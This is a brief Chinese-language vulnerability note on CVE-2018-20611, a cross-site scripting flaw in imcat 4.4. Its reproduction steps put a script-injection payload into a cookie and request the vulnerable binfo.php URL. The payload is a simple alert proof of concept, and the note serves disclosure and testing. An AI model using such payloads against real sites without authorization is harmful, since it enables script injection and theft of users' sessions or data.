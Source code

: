 （CVE-2018-20611）Imcat 4.4 xss
===============================

一、漏洞简介
------------

imcat是一套基于PHP的开源建站系统。 imcat
4.4版本存在跨站脚本漏洞。远程攻击者可通过向root/tools/adbug/binfo.php?cookie
URI发送特制的cookie利用该漏洞注入任意的Web脚本或HTML。

二、漏洞影响
------------

imcat 4.4

三、复现过程
------------

将cookie的值修改成

    "><script>alert(1)</script>

![](./resource/(CVE-2018-20611)Imcat4.4xss/media/rId24.png)

然后访问

    http://www.0-sec.org/root/tools/adbug/binfo.php?cookie`

![](./resource/(CVE-2018-20611)Imcat4.4xss/media/rId25.png)

参考链接
--------

> <https://github.com/AvaterXXX/CVEs/blob/master/imcat.md>
